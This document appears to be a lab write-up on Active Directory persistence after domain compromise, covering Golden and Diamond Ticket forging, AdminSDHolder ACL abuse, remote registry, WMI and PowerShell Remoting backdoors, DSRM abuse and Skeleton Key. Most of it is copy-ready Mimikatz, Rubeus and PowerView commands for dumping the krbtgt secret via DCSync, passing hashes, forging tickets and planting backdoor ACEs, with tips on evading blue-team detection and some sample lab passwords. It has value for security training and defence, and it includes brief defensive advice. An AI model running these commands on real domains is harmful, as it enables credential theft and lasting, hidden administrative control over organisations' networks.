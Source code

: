 ## Some Persistence Techniques
After gaining domain admin privileges, attackers generaly focus on maintaining their
level of access over time. They employ various persistence techniques that allow them
to regain domain admin privileges whenever they want, potentially for months or even
years. In this lab i will explore:
- Golden Ticket
- Diamond Ticket
- AdminSDHolder
- Remote Services/Protocoles SD
- DSRM
- Skeleton Key


### Golden Ticket
##### dcsync
With the da credentials with start a new process and perform a dcsync attack to extrat the credentials of the krbtgt account (the account of the Key Distribution Center Sservice).<br>
```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
powershell -ep bypass
Import-Module C:\AD\Tools\Invoke-Mimi.ps1
Invoke-Mimi -Command '"sekurlsa::pth /user:itmanager /domain:corp.local /rc4:<> /run:cmd.exe" "exit"'
```
![alt text](assets/persistence/pth.png)<br>

```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
powershell -ep bypass
Import-Module C:\AD\Tools\Invoke-Mimi.ps1
Invoke-Mimi -Command '"lsadump::dcsync /user:corp\krbtgt" "exit"'
```
![alt text](assets/persistence/dcsync.png)<br>

##### DA tgt forging using low user
We use  the krbtgt account aes key to forge TGT for any user. Since the krbtgt accound passord is not often change this techique can allow the attacker to maintain his access for long periods...<br>

```powershell
C:\AD\Tools\Rubeus.exe golden /aes256:<> /sid:<> /ldap /user:Administrator /printcmd
```
![alt text](assets/persistence/golden1.png)<br>
![alt text](assets/persistence/golden3.png)<br>
![alt text](assets/persistence/golden4.png)<br>

```powershell
Invoke-Mimi -Command '"kerberos::golden /User:Administrator /domain:corp.local /sid:<> 
/aes256:<> /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```
![alt text](assets/persistence/golden2.png)<br>
![alt text](assets/persistence/golden5.png)<br>

### Diamond Ticket
One thing to always remember is that a Golden Ticket is a forged ticket, meaning there is no interaction with the KDC (Key Distribution Center). This can be detected by the Blue Team by monitoring for an AS-REP without a corresponding AS-REQ.<br>
In contrast, the Diamond Ticket is more OPSEC-safe. In this attack, we first request a legitimate TGT (Ticket Granting Ticket) from the KDC. Then, using the krbtgt hash, we decode the TGT, modify it, and re-encode it before using it.


##### using the curent user security context (tgtdeleg)
```powershell
C:\AD\Tools\Rubeus.exe diamond /krbkey:<> /tgtdeleg /enctype:aes /ticketuser:administrator /domain:corp.local /dc:WIN-4E30GDH8UQ6.corp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
![alt text](assets/persistence/golden5.png)<br>
![alt text](assets/persistence/golden5.png)<br>

##### using user/password
```powershell
C:\AD\Tools\Rubeus.exe -args %Pwn% /krbkey:<> /user:stdent163 /password:UE6pj7HvkSgrGR92 /enctype:aes /ticketuser:administrator /domain:corp.local  /dc:WIN-4E30GDH8UQ6.corp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /pt
```
![alt text](assets/persistence/golden5.png)<br>
![alt text](assets/persistence/golden5.png)<br>

### AdminSDHolder
[Ref](https://www.thehacker.recipes/ad/persistence/adminsdholder)<br>
AdminSDHolder is a container in AD that holds the Security Descriptor applied to members of protected groups. The ACL can be viewed on the AdminSDHolder object itself. The Progation mechanisme that overwrite SD of protected groups and users with the SD of the  AdminSDHolder container runs every hour by default but can run at a different frequency by adding the value AdminSDProtectFrequency to `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NTDS\Parameters` <br>
This is likely to be noticed by the blue team, as there is a high chance that the AdminSDHolder SD is being monitored.
![alt text](assets/persistence/adminsd1.png)<br>
```bash
dacledit.py -action 'write' -rights 'FullControl' -principal 'helpdesk' -target-dn 'CN=AdminSDHolder,CN=System,DC=corp,DC=local' 'corp/administrator':'Password321!'
```

```powershell
Import-Module C:\AD\Tools\PowerView.ps1
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=corp,DC=local' -PrincipalIdentity helpdesk -Rights All -Verbose
```
![alt text](assets/persistence/adminsd3.png)<br>
![alt text](assets/persistence/adminsd2.png)<br>

```powershell
Import-Module C:\AD\Tools\Invoke-SDpropagator.ps1
Invoke-SDPropagator -ShowProgress -Verbose -timeoutMinutes 1
```
![alt text](assets/persistence/adminsd4.png)<br>
With this, the helpdesk user has Full Control over all protected groups and users. To revert, simply remove the helpdesk ACE from AdminSDHolder and force the propagation again.

### Remote Services/Protocoles SD

##### Remote Registry
```powershell
Import-Module C:\AD\Tools\Race.ps1
Add-RemoteRegBackdoor -ComputerName WIN-4E30GDH8UQ6.corp.local -Trustee helpdesk -Verbose

Get-RemoteMachineAccountHash -ComputerName WIN-4E30GDH8UQ6.corp.local -Verbose
```
![alt text](assets/persistence/rr1.png)<br>
![alt text](assets/persistence/rr2.png)<br>
![alt text](assets/persistence/rr3.png)<br>
##### Remote WMI
```powershell
Import-Module C:\AD\Tools\Race.ps1
Set-RemoteWMI -SamAccountName helpdesk -ComputerName WIN-4E30GDH8UQ6.corp.local -Verbose 

Get-WmiObject -Class win32_operatingsystem -ComputerName WIN-4E30GDH8UQ6.corp.local
```
![alt text](assets/persistence/rWMI1.png)<br>
![alt text](assets/persistence/rWMI2.png)<br>

##### Powershell Remoting
```powershell
Import-Module C:\AD\Tools\Race.ps1
Set-RemotePSRemoting -SamAccountName helpdesk -ComputerName WIN-4E30GDH8UQ6.corp.local -Verbose

Enter-PSSession -ComputerName WIN-4E30GDH8UQ6.corp.local
```
![alt text](assets/persistence/pr1.png)<br>
![alt text](assets/persistence/pr2.png)<br>

### DSRM
DSRM sands for Directory Services Restore Mode and on every DC the local admin "Administrator" is the DSRM account. His password i set when promoting the DC...[Ref](https://www.hackingarticles.in/domain-persistence-dsrm/)<br>
![alt text](assets/persistence/dsrm1.png)<br>

#### Creds Extraction
![alt text](assets/persistence/dsrm2.png)<br>
```
mimikatz.exe "token::elevate" "lsadump::sam" "exit"
```
![alt text](assets/persistence/dsrm3.png)<br>
```
mimikatz.exe "lsadump::lsa /path" "exit"
```
![alt text](assets/persistence/dsrm4.png)<br>

#### Registry Modification
```powershell
Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\"

Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehaviour" -Value 2 -Verbose
```
![alt text](assets/persistence/dsrm5.png)<br>

```powershell
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehaviour" -Value 2 -PropertyType DWORD -Verbose
```
![alt text](assets/persistence/dsrm6.png)<br>

#### Usage
```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
powershell -ep bypass
Import-Module C:\AD\Tools\Invoke-Mimi.ps1
Invoke-Mimi -Command '"sekurlsa::pth /user:Administrator /domain:corp.local /rc4:<> /run:cmd.exe" "exit"'
```
#### Defence Strategies
- Check & monitor the DsrmAdminLogonBehaviour value is not set to 2 inside the Registry key.
- DSRM passwords should be changed regularly at least once a month.


### Skeleton Key
![alt text](assets/persistence/skeletonkey1.png)<br>
[Read More](https://www.thehacker.recipes/ad/persistence/skeleton-key/)<br>
```powershell
Invoke-mimikatz -Command "privilege::debug" "misc::skeleton" -ComputerName WIN-4E30GDH8UQ6.corp.local

Enter-PSSession -ComputerName WIN-4E30GDH8UQ6.corp.local
```
#### Notes
- not OPSEC Safe (very noisy)
- Skeleton Key is known to cause issues to ADCS
- if the lsass.exe process is running as PPL (Protected Process Light) the previous command will fail cause getting a handle on a protected process is not allowed.

